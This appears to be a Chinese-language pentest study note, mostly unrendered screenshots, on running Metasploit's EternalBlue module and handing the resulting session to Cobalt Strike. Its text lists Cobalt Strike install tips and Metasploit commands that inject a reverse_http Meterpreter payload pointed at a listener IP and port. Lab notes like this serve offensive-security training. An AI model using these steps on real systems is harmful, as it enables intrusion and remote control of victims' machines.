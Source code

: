 #### **msf调用永恒之蓝攻击模块将会话转移到cs中**

---



![image-20210827111457310](E:\homework\GitHub\blog\blog\#msf用法\image-20210827111457310.png)

![image-20210827111547972](E:\homework\GitHub\blog\blog\#msf用法\image-20210827111547972.png)

![image-20210827111721827](E:\homework\GitHub\blog\blog\#msf用法\image-20210827111721827.png)

![image-20210827111846007](E:\homework\GitHub\blog\blog\#msf用法\image-20210827111846007.png)

![image-20210827112426841](E:\homework\GitHub\blog\blog\#msf用法\image-20210827112426841.png)

![image-20210827112449014](E:\homework\GitHub\blog\blog\#msf用法\image-20210827112449014.png)

![image-20210827112809967](E:\homework\GitHub\blog\blog\#msf用法\image-20210827112809967.png)

![image-20210827112935235](E:\homework\GitHub\blog\blog\#msf用法\image-20210827112935235.png)

![image-20210827113338132](E:\homework\GitHub\blog\blog\#msf用法\image-20210827113338132.png)

![image-20210827113359985](E:\homework\GitHub\blog\blog\#msf用法\image-20210827113359985.png)

![image-20210827113620880](E:\homework\GitHub\blog\blog\#msf用法\image-20210827113620880.png)

![image-20210827113857288](E:\homework\GitHub\blog\blog\#msf用法\image-20210827113857288.png)





### **Cobalt Strike**

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827140254423.png)

![image-20210827140409050](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827140409050.png)

![image-20210827160438311](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827162931510.png)

![image-20210827163040114](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827163040114.png)

![image-20210827163212188](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827163212188.png)

![image-20210827173045062](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827173045062.png)

![image-20210827174242671](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827174242671.png)

